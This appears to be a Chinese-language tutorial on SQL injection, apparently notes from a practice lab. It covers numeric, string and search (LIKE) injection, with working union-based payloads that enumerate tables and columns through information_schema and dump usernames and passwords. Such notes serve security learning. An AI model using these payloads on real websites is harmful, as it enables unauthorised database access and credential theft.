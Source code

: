 ### 数字型注入

post、数字型：1 and 1=1 #正常回显；1 and 1=2 #非正常

如图

![](https://i.loli.net/2021/02/13/pC2H5kLJMeocsWv.png)

```
id=-1 order by 1,2		#判断字段数
id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+		#爆表名
id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users'--+			#爆列名
id=-1 union select 1,group_concat(username,0x2b,password) from users--+			#爆数据

```

![](https://i.loli.net/2021/02/13/tPZqCKzXlvcyROn.png)





### 字符型注入

get、字符型：id=1' #保错，id=1' --+ # 正常

```
?name=1' order by 2--+
?name=1' union select 1,2--+
?name=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+		#爆表名
?name=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'--+			#爆列名
?name=-1' union select 1,group_concat(username,0x2b,password) from users--+			#爆数据

```

![](https://i.loli.net/2021/02/13/8m4BP6V2GSRJoig.png)

### 搜索型注入

后端的sql查询语句使用了模糊差异如 `select id form 某表 like ' %xxx% '`

payload的构造：实际是将其通配符%闭合，

eg：

```
xx%' or 1=1 #   

传到后端的完整语句为：select id form 某表 like ' %xx%' or 1=1 #% '

' and 1=1 and '%'='

传到后端的完整语句为：select id form 某表 like '%' and 1=1 and '%'='%'
```
